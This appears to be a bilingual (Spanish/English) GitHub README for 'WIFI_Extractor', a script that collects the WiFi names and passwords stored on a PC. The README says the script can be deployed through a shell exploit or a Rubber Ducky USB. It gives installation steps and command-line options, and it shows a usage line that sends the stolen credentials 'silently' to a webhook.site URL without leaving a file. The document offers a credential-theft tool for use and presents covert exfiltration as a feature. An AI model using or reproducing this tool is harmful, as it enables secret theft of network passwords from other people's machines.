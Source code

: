 # WIFI_Extractor

you might need this requeriments
Tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubby ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubby ducky)

Usage: E_WIFI.py [OPTIONS]


Options:

  -u, --url TEXT      Webhook/POST URL
  
  -o, --only-webhook  Only send data to webhook (whithout creating the txt file) need to specify the url with -u Envía los datos
                      solo a la webhook (sin crear el archivo txt) necesitas especificar la url con -u
                      
  -v, --version       Imprime la version | Prints the version
  
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

silent: Only webhook, no txt file

python3 E_WIFI.py -u https://webhook.site/yoururl -o

type --help for more detailed info

PD: Extracciones.txt is the txt with the wifis credentials
